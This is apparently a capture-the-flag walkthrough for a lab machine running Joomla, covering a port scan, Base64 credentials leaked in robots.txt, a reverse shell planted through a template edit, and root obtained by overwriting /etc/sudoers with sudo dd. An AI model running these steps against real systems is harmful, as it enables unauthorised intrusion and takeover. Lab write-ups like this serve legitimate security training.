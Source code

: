 ﻿---
sticker: lucide//candy
---
# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 80 | HTTP |
We can get this in the scan:

```
PORT STATE SERVICE REASON VERSION
80/tcp open http syn-ack Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 17 disallowed entries
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
|_/plugins/ /tmp/
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-generator: Joomla! - Open Source Content Management
```

Let's begin reconnaissance.
# RECONNAISSANCE
---

By looking at the scan we can check the entrance to `/robots.txt` is enabled, let's check it out:

![Pasted image 20250306160644.png](../../IMAGES/Pasted%20image%2020250306160644.png)

We got credentials and new entries, let's check the `/administrator` one:

```
admin:c2FubHVpczEyMzQ1
```

![Pasted image 20250306160959.png](../../IMAGES/Pasted%20image%2020250306160959.png)

If we try logging into the panel with those credentials, we are unable to do so, that's because the password is encoded using Base64, let's decode:

```bash
echo 'c2FubHVpczEyMzQ1' | base64 -d
sanluis12345
```

So, the correct credentials are:

```
admin:sanluis12345
```

![Pasted image 20250306161139.png](../../IMAGES/Pasted%20image%2020250306161139.png)

We are now inside the admin panel, let's look around for a way to get a shell.






# EXPLOITATION
---

After exploring the application for a while, we can check the following:

![Pasted image 20250306161614.png](../../IMAGES/Pasted%20image%2020250306161614.png)

We got administrator templates, let's check it out:



![Pasted image 20250306161640.png](../../IMAGES/Pasted%20image%2020250306161640.png)

We can modify files, let's try uploading a reverse shell in `/index.php`, once uploaded, start a listener and save the changes:

![Pasted image 20250306161839.png](../../IMAGES/Pasted%20image%2020250306161839.png)

We got our shell, let's stabilize it: 

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![Pasted image 20250306162017.png](../../IMAGES/Pasted%20image%2020250306162017.png)

Nice, now let's look for a way to get root access.

# PRIVILEGE ESCALATION
---

We can use linpeas first:

![Pasted image 20250306162512.png](../../IMAGES/Pasted%20image%2020250306162512.png)

We found a user with a console: `luisillo`, we can also find this:

![Pasted image 20250306162629.png](../../IMAGES/Pasted%20image%2020250306162629.png)

We got a backups folder, let's check it out:

```
www-data@ce239478bbd9:/var/backups/hidden$ ls
otro_caramelo.txt
```

Let's read the file:

```
www-data@ce239478bbd9:/var/backups/hidden$ cat otro_caramelo.txt

Aqui esta su caramelo Joven :)

<?php
// InformaciÃ³n sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// CÃ³digo de conexiÃ³n a la base de datos
function connectToDatabase() {
 global $db_host, $db_user, $db_pass, $db_name;
 $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
 if ($conn->connect_error) {
 die("ConexiÃ³n fallida: " . $conn->connect_error);
 }
 return $conn;
}

// InformaciÃ³n adicional
echo "Bienvenido a Joomla en lÃ­nea!";
?>
```

We got credentials for `luisillo`, let's switch and check the permissions of this user:

```
luisillo@ce239478bbd9:~$ sudo -l
Matching Defaults entries for luisillo on ce239478bbd9:
 env_reset, mail_badpass,
 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
 use_pty

User luisillo may run the following commands on ce239478bbd9:
 (ALL) NOPASSWD: /bin/dd
```

We can check this binary in gtfobins:

![Pasted image 20250306162918.png](../../IMAGES/Pasted%20image%2020250306162918.png)

So, we can escalate privileges with the following:

```
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

What we did in here was to edit the `sudoers` file to enable `luisillo` to execute any command while using sudo, let's try:

![Pasted image 20250306163315.png](../../IMAGES/Pasted%20image%2020250306163315.png)

Just like that we got root access.

